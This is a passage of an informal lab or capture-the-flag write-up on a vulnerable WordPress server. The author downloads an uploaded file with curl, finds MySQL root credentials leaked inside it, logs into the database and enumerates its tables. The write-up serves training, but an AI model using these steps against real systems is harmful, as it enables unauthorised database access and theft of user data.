 
After going in, i see different things but what i was interested in was the "upload part", there is an image that can't be opened 
Pretty sure there is stg hidden in, let's download it without any extension by using : 

```bash
curl -k https://192.168.122.136:12380/blogblog/wp-content/uploads/146817183.jpeg > data/img
#-k is used for unsececure domain
```

alright so the img contains php code, **AND BABY WHAT A CODE** !!  
we got the configuration of the mysql with the password !!!
knowing that we've one last unexplored port dedicated to sql (and the demonic one but i'll have a look after finishing the box)
Here is the cool bit of this img file:

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```



## Hey dud, u want some DB ? i got a lil mysql for u

So let's connect to our mysql
`mysql -u root -p -h 192.168.122.136`
and type the passwd by your own

So yea here i am in the db as root!
let's grab some informations, `show databases;` and we got all the db, so i did go around all of that but ntg was really interesting
but then i tap --> `use wordpress; show tables;`

and then we want to know what's inside "wp users" so let's do `describe wp_users;`

`SELECT * FROM wp_users`

Here is the total output:

```bash
MySQL [wordpress]> show tables
    -> ;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
11 rows in set (0.002 sec)

```